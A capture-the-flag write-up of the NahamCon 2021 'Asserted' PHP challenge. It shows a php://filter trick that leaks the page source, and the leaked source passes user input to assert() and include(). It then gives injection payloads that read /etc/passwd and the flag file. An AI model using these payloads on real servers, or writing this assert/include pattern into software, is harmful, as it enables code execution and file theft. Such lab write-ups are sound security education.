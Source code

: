 ```yaml
---
description: Asserted Nahamcon 2021 challenge write up.
---
```


# Asserted

## Trying things

After a while a noticed that the url was using an argument to change between pages:

```
http://challenge.nahamcon.com:32302/index.php?page=about
```

If i try something like:

```
http://challenge.nahamcon.com:32302/index.php?page=../
```

The page returns: `HACKING DETECTED! PLEASE STOP THE HACKING PRETTY PLEASE`

## Digging

I wanted to check the php code of this `index.php` so i researched a bit and i used this:

```
http://challenge.nahamcon.com:32302/index.php?page=php://filter/convert.base64-encode/resource=index
```

To get a base64 encoded `index.php` file. After decoding we can take a look to this friend:

```
<?php

if (isset($_GET['page'])) {
  $page = $_GET['page'];
  $file = $page . ".php";

  // Saving ourselves from any kind of hackings and all
  assert("strpos('$file', '..') === false") or die("HACKING DETECTED! PLEASE STOP THE HACKING PRETTY PLEASE");
  
} else {
  $file = "home.php";
}

include($file);

?>
```

Looks like that `assert` function can be abused. Lets try this simple payload:

```
http://challenge.nahamcon.com:30611/index.php?page='. die("HALLO") .'
```

The page printed `HALLO` to the response body so lets try LFI:

```
http://challenge.nahamcon.com:30611/index.php?page='. die(file_get_contents("/etc/passwd")) .'
```
And the server printed the hole file to us, cool. Lets find and get the flag then:

```
http://challenge.nahamcon.com:30611/index.php?page='. die(file_get_contents("/flag.txt")) .'
```

Flag: `flag{85a25711fa6e111ed54b86468a45b90c}`

